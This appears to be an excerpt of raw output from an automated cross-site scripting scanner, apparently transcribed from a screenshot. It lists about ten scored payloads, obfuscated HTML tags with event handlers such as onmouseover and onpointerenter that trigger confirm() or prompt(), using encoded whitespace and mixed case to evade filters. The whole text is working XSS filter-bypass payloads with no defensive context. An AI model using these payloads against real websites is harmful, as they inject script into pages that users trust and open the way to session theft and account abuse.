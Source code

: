 ------------------------------------------------------------
 Payload: <D3v%0doNmouSeOVEr%09=%09confirm()//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 520/1536
 
------------------------------------------------------------
 Payload: <a%0doNPOIntEreNTER%09=%09[8].find(confirm)//v3dm0s 
 Efficiency: 93 
 Confidence: 10 
 Progress: 521/1536
 
 Progress: 522/1536
 
------------------------------------------------------------
 Payload: <d3V/+/onpoINteRENTeR%09=%09a=prompt,a()%0dx//v3dm0s 
 Efficiency: 93 
 Confidence: 10 
 Progress: 523/1536
 
------------------------------------------------------------
 Payload: <D3V%09oNMOUsEoVEr%09=%09a=prompt,a()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 524/1536
 
------------------------------------------------------------
 Payload: <d3V%0dOnmOuSeOVEr%0d=%0d(prompt)``//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 525/1536
 
 Progress: 526/1536
 
------------------------------------------------------------
 Payload: <DETaILs%09onTogGLE%0d=%0d[8].find(confirm)%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 527/1536
 
------------------------------------------------------------
 Payload: <deTaiLS%09ONPOIntEReNTEr+=+(confirm)()%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 528/1536
 
------------------------------------------------------------
 Payload: <htMl/+/ONMOUSeovER%09=%09a=prompt,a()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 529/1536
 
------------------------------------------------------------
 Payload: <D3V%0aonPOiNtErenter+=+a=prompt,a()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 530/1536
 